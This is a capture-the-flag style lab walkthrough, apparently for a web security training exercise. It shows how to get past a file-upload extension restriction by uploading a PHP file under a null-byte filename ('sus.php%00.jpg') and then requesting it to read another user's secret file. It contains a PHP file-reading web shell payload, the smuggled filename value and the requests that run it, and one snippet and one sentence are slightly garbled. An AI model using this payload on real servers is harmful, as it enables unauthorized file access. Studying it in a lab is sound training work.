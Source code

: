 # Login
![1_0](01.png)
We can log in to your own account using the following credentials: 
```bash
wiener:peter
```
### We know this lab contains image upload function vunerablity. So lets start looking for it.

# Information gathering

![2_0](02.png)

We can upload the image file under Avatar lable.


We have to create a php executable file which contains a script for fetching the contents of (/home/carlos/secret).

```bash
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
or
```bash 
<?php
$sus = file_get_contents('/home/carlos/secret');
echo $sus
>
```

![3_0](03.png)
**Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.**
 There is file restiction to upload. Now we have to create an executable file to execute via web shell and bypass it.

# Exploit

![4_0](04.png)

Try uploading the file. In BurpSuite HTTP history and notice that your image was fetched using a **GET request to /files/avatars/<YOUR-IMAGE>**. Now send the GET request
to Burp reapeater.

![5_0](05.png)

In BurpSuite history if you observe the file submit **POST request /my-account/avatar** send it to the repeater tab
In the Content-Disposition header, change the value of the filename parameter to include a URL encoded null byte, followed by the .jpg extension:

```bash
filename="sus.php%00.jpg"
```

Send the request and observe that the file was successfully uploaded.

Notice that thele as expl message refers to the sus.php, suggesting that the null byte and .jpg extension have been stripped.

Now switch to the Repeater tab containing the **GET /files/avatars/<YOUR-IMAGE>** request. 

In the path, replace the name of your image file with sus.php and send the request. 

```bash
GET /files/avatars/sus.php HTTP/1.1
```

![6_0](06.png)

The Carlos's secret was returned in the response.

# Conclution
From this lab we gained the basic idea of how to bypass obfuscated file extention restriction file upload function vunerablity.

